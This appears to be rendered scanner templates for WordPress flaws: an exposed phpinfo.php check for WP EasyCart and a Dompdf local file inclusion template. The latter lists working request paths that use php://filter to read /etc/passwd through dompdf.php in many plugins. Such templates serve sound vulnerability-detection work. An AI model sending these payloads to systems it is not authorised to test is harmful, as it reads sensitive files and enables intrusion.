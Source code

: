 - severity - low
- tags - wpscan,cve,cve2014,wordpress,wp-plugin,wp,phpinfo,disclosure
## Requests
- Method - GET
### URL
- {{BaseURL}}/wp-content/plugins/wp-easycart/inc/admin/phpinfo.php
### Matchers

**Type - word**
- part - body
- words
    1. PHP Extension
    2. PHP Version
- condition - and

**Type - status**
- status
    1. 200
### Extractors

**Type - regex**
- part - body
- group - 1
- regex
    1. >PHP Version \<\/td>\<td class="v">([0-9.]+)

---
# Dompdf \< v0.6.0 - Local File Inclusion
## Description
- A vulnerability in dompdf.php in dompdf before 0.6.1, when DOMPDF_ENABLE_PHP is enabled, allows context-dependent attackers to bypass chroot protections and read arbitrary files via a PHP protocol and wrappers in the input_file parameter, as demonstrated by a php://filter/read=convert.base64-encode/resource in the input_file parameter.

- severity - high
- tags - cve,lfi,wp-plugin,wpscan,cve2014,dompdf,wordpress,wp,edb,seclists
## Requests
- Method - GET
### URL
- {{BaseURL}}/dompdf.php?input_file=php://filter/resource=/etc/passwd
- {{BaseURL}}/PhpSpreadsheet/Writer/PDF/DomPDF.php?input_file=php://filter/resource=/etc/passwd
- {{BaseURL}}/lib/dompdf/dompdf.php?input_file=php://filter/resource=/etc/passwd
- {{BaseURL}}/includes/dompdf/dompdf.php?input_file=php://filter/resource=/etc/passwd
- {{BaseURL}}/wp-content/plugins/web-portal-lite-client-portal-secure-file-sharing-private-messaging/includes/libs/pdf/dompdf.php?input_file=php://filter/resource=/etc/passwd
- {{BaseURL}}/wp-content/plugins/buddypress-component-stats/lib/dompdf/dompdf.php?input_file=php://filter/resource=/etc/passwd
- {{BaseURL}}/wp-content/plugins/abstract-submission/dompdf-0.5.1/dompdf.php?input_file=php://filter/resource=/etc/passwd
- {{BaseURL}}/wp-content/plugins/post-pdf-export/dompdf/dompdf.php?input_file=php://filter/resource=/etc/passwd
- {{BaseURL}}/wp-content/plugins/blogtopdf/dompdf/dompdf.php?input_file=php://filter/resource=/etc/passwd
- {{BaseURL}}/wp-content/plugins/gboutique/library/dompdf/dompdf.php?input_file=php://filter/resource=/etc/passwd
- {{BaseURL}}/wp-content/plugins/wp-ecommerce-shop-styling/includes/dompdf/dompdf.php?input_file=php://filter/resource=/etc/passwd